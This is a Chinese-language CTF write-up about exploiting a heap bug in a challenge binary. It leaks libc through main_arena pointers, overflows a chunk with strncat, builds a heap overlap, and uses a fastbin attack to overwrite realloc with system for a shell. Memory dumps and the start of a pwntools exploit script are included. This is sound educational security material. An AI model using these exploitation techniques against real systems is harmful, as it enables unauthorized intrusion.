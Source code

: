 在正常情况下，这段代码并不会出现问题。但是存在一个问题，如果我们在释放一个非fastbin的堆块后，这个堆块的bck和fwd指针都会变成main_arena中的bins的地址。

```
0x55f53cdb8000:	0x0	0x31
0x55f53cdb8010:	0x0	0x100
0x55f53cdb8020:	0x55f53cdb8150	0x55f53b977080
0x55f53cdb8030:	0x55f53cdb8040	0x111
0x55f53cdb8040:	0x7f2e69217b58 <main_arena+88>	0x7f2e69217b58 <main_arena+88>
```

此时，如果申请一个字节的块，内容为一个回车符，堆块就会变成这个样子

```
0x563ba85af030:	0x563ba85af040	0x21
0x563ba85af040:	0x7fbdfc61bc0a[回车符] <main_arena+266>	0x7fbdfc61bc58 <main_arena+344>
0x563ba85af050:	0xa	0xf1
```

这个时候如果调用list功能，就已经可以泄露libc地址了。那么在泄露完之后，我们还得想办法控制EIP。注意下面这行代码

```c
strncat((char *)ptr->content, &s, (signed int)(v3 - 1));  
```

那么，在上一步中，我们只申请了一个字节的堆块，长么对应的ptr->length = 1，那么只要扩充后的长度不超过堆块大小，这个时候调用strcat就有可能导致堆溢出

```
0x5606b8b19040:	0x62627f0d6cec9c0a	0x6262626262626262
0x5606b8b19050:	0x6262626262626262	0x51 //堆块大小被修改成了0x51
0x5606b8b19060:	0x0	0x60
0x5606b8b19070:	0x0	0x5606b8b19010
```

通过修改堆块大小我们就可以构造heap overlap，再下一步就是fastbin attack了，籍此可将realloc修改成system函数，那么在触发expand时就可以get shell。完整的代码如下

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

slog = 1
local = 0

if slog: context.log_level = 'debug'

def add(length, content):
    p.recvuntil('choice:')
    p.sendline('1')
    p.recvuntil('length:')
    p.sendline(str(length))
    p.recvuntil('content:')
    p.sendline(content)

def delete(index):
    p.recvuntil('choice:')
    p.sendline('2')
    p.recvuntil('delete?')
    p.sendline(str(index))

def list():
    p.recvuntil('choice:')
    p.sendline('3')

def edit():
    p.recvuntil('choice:')
    p.sendline('4')
    p.recvuntil('edit?')
```